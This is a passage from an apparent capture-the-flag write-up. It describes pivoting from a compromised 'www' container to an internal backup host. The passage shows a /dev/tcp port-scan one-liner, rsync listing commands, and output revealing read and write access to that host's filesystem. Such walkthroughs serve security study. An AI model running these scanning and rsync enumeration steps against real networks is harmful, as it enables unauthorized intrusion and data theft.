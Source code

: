 - .1 will be the host
- .2 is something we need to look.
- .3 is our IP

I did a portscan on it and only Port 873 is open. Now It makes sense that it’s open on 873, rsync, which is how www was connecting to it.

```bash
root@www:/tmp# bash -c 'for p in $(seq 1 10000); do(echo test >/dev/tcp/172.20.0.2/$p && echo "$p open") 2>/dev/null; done'
873 open
```

I tried to enumerate the rsync. By using `--list-only` it will list us everything.

```bash
root@www:/tmp# which rsync
which rsync
/usr/bin/rsync
root@www:/tmp# /usr/bin/rsync -av --list-only rsync://172.20.0.2/src/backup
/usr/bin/rsync -av --list-only rsync://172.20.0.2/src/backup
receiving incremental file list
drwxr-xr-x          4,096 2018/07/15 17:42:41 backup
-rw-r--r--          2,023 2018/05/04 19:55:07 backup/index.html
-rw-r--r--             17 2018/05/04 19:55:07 backup/info.php
drwxr-xr-x          4,096 2018/07/15 17:42:41 backup/8924d0549008565c554f8128cd11fda4
-rw-r--r--            280 2018/05/04 19:55:07 backup/8924d0549008565c554f8128cd11fda4/ajax.php
-rw-r--r--             40 2018/05/04 19:55:07 backup/8924d0549008565c554f8128cd11fda4/config.ini
drwxr-xr-x          4,096 2018/07/15 17:42:41 backup/8924d0549008565c554f8128cd11fda4/lib
-rw-r--r--          1,317 2018/05/04 19:55:08 backup/8924d0549008565c554f8128cd11fda4/lib/Autoloader.php
-rw-r--r--          4,307 2018/05/04 19:55:08 backup/8924d0549008565c554f8128cd11fda4/lib/Client.php
-rw-r--r--          1,739 2018/05/04 19:55:08 backup/8924d0549008565c554f8128cd11fda4/lib/Config.php
-rw-r--r--          1,252 2018/05/04 19:55:08 backup/8924d0549008565c554f8128cd11fda4/lib/JsonResult.php
-rw-r--r--            484 2018/05/04 19:55:08 backup/8924d0549008565c554f8128cd11fda4/lib/Pool.php
-rw-r--r--          2,935 2018/05/04 19:55:08 backup/8924d0549008565c554f8128cd11fda4/lib/Result.php
-rw-r--r--          1,261 2018/05/04 19:55:08 backup/8924d0549008565c554f8128cd11fda4/lib/Server.php
drwxr-xr-x          4,096 2018/07/15 17:42:41 backup/assets
-rw-r--r--         78,601 2018/05/04 19:55:07 backup/assets/jquery.js
drwxr-xr-x          4,096 2018/07/15 17:42:41 backup/f187a0ec71ce99642e4f0afbd441a68b

sent 29 bytes  received 564 bytes  1,186.00 bytes/sec
total size is 94,256  speedup is 158.95
```

rsync gives me full read and write access to backup (172.20.0.2) . I can read the file system:

```bash
root@www:/tmp# rsync rsync://172.20.0.2:873/src
rsync rsync://backup:873/src
drwxr-xr-x          4,096 2018/07/15 17:42:39 .
-rwxr-xr-x              0 2018/05/04 21:01:30 .dockerenv
-rwxr-xr-x            100 2018/05/04 19:55:07 docker-entrypoint.sh
drwxr-xr-x          4,096 2018/07/15 17:42:41 backup
drwxr-xr-x          4,096 2018/07/15 17:42:39 bin
drwxr-xr-x          4,096 2018/07/15 17:42:38 boot
drwxr-xr-x          4,096 2018/07/15 17:42:39 data
drwxr-xr-x          3,720 2020/08/19 05:57:02 dev
drwxr-xr-x          4,096 2018/07/15 17:42:39 etc
drwxr-xr-x          4,096 2018/07/15 17:42:38 home
drwxr-xr-x          4,096 2018/07/15 17:42:39 lib
drwxr-xr-x          4,096 2018/07/15 17:42:38 lib64
```